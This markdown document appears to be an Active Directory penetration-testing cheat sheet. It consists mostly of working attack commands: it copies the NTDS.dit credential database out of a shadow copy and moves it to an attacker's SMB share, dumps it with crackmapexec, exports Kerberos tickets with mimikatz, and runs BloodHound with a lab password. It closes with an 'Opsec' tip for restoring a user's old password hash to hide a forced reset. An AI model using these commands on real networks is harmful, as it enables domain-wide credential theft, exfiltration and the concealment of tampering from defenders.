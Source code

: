 # AD Tips

% active diretory

## Manual dumping NTDS.DIT as a user in Admin group/DA group
```
# Check local group membership > Admin group ?
net localgroup

# Check user priv including Domain
net user <USERNAME>

# Shadow copy of C:i, note the Shado copy volume name
vssadmin CREATE SHADOW /For=C:

# Copy NTDS.DIT form the VSS
# example: cmd.exe /c copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2\Windows\NTDS\NTDS.dit c:\NTDS\NTDS.dit
cmd.exe /c copy \\?\GLOBALROOT\Device\<..> c:\NTDS\NTDS.dit

# Create a SMB share on the attacker's machine

#  Transferring NTDS.dit to Attack Host
cmd.exe /c move C:\NTDS\NTDS.dit \\<ATK IP>\<SHARENAME>
```

## Dumping NTDS.DIT - netexec (uses VSS)
```
crackmapexec smb <IP> -u <USER> -p <PASSWD> --ntds
```

## Harvest kerberos tickets from windows
```
# Harvest kerberos tickets from windows

# From mimikatz
mimikatz # privilege::debug
sekurlsa::tickets /export

dir *.kirbi
```

## Bloodhound - Finding non-default AD groups from injestor JSON output
```
#Bloodhound - Finding non-default AD groups from injestor JSON output 
# Non-default AD groups have the last part of their domains SID > 1000
 cat 20250731161542_groups.json | jq '.data[]
        | select((.ObjectIdentifier | split("-") | last | tonumber) > 1000)
        | [.ObjectIdentifier, .Properties.name, .Properties.whencreated]'
# DNS Admin which SID > 1000 is a default group, ignore it
```

# Faketime - Adhoc Kerberos auth
```
# Using faketime + ntpdate to avoid KRB_AP_ERR_SKEW(Clock skew too great)

# Internal or via ligolo
faketime "$(ntpdate -q dc01.ad.lab | cut -d ' ' -f 1,2)" \
bloodhound-python -c All -u joan.hesther -p 'madison' -d ad.lab -ns 10.80.80.2

# Through proxy or ssh
proxychains -q faketime "$(ntpdate -q dc01.ad.lab | cut -d ' ' -f 1,2)" \ 
bloodhound-python -c All -u joan.hesther -p 'madison' -d ad.lab -ns 10.80.80.2 --dns-tcp

# source : https://notes.benheater.com/books/active-directory/page/using-faketime-for-ad-hoc-kerberos-authentication
```

# impacket - secretsdumps
```
Useful options :
-pwd-last-set -user-status -history

Faster cracking if recent passwords are a variation of older ones that got cracked.

Opsec :
If you used ForcedPassword on a user to set a users's password
You can revert the user's hash to its previous value to make it appear unchanged

```
